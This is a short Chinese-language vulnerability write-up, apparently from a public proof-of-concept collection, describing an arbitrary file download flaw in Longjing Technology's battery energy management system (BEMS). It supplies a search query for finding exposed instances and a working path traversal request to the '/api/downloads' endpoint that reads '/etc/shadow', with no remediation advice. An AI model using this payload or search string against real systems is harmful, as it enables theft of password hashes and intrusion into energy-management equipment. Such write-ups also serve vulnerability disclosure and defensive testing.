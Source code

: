 # 龙璟科技 电池能量BEMS downloads 任意文件下载漏洞

## 漏洞描述

龙璟科技 电池能量BEMS 存在接口可任意文件下载获取服务器任意文件信息

## 漏洞影响

```
龙璟科技 电池能量BEMS
```

## 网络测绘

```
title=电池能量管理系统 BEMS
```

## 漏洞复现

登陆页面

![img](images/202202101906850.png)

验证POC

```plain
/api/downloads?fileName=../../../../../../../../etc/shadow
```

![img](images/202202101906628.png)